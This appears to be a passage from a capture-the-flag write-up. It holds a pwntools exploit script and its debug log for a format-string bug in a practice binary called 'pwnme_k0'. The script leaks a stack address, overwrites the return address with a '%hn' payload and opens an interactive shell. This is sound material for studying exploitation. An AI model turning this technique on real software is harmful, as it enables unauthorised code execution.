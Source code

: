 ```shell
    '1.Sh0w Account Infomation!\n'
    '2.Ed1t Account Inf0mation!\n'
    '3.QUit sangebaimao:(\n'
    '>'
[DEBUG] Sent 0x2 bytes:
    '1\n'
[DEBUG] Received 0x8b1 bytes:
    00000000  18 63 bd 94  ff 7f 20 20  20 20 20 20  20 20 20 20  │·c··│··  │    │    │
    00000010  20 20 20 20  20 20 20 20  20 20 20 20  20 20 20 20  │    │    │    │    │
    *
    000008a0  20 20 20 20  20 2d 31 37  39 39 35 32  37 36 34 32  │    │ -17│9952│7642│
    000008b0  0a                                                  │·│
    000008b1
[*] Switching to interactive mode
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x128 bytes:

```



POC:

```python
from pwn import *
context.log_level="debug"
context.arch="amd64"

sh=process("./pwnme_k0")
binary=ELF("pwnme_k0")
#gdb.attach(sh)

sh.recv()
sh.writeline("1"*8)
sh.recv()
sh.writeline("%6$p")
sh.recv()
sh.writeline("1")
sh.recvuntil("0x")
ret_addr = int(sh.recvline().strip(),16) - 0x38
success("ret_addr:"+hex(ret_addr))


sh.recv()
sh.writeline("2")
sh.recv()
sh.sendline(p64(ret_addr))
sh.recv()
#sh.writeline("%2214d%8$hn")
#0x4008aa-0x4008a6
sh.writeline("%2218d%8$hn")  # %2218d = 8AA

sh.recv()
sh.writeline("1")
sh.recv()
sh.interactive()
```
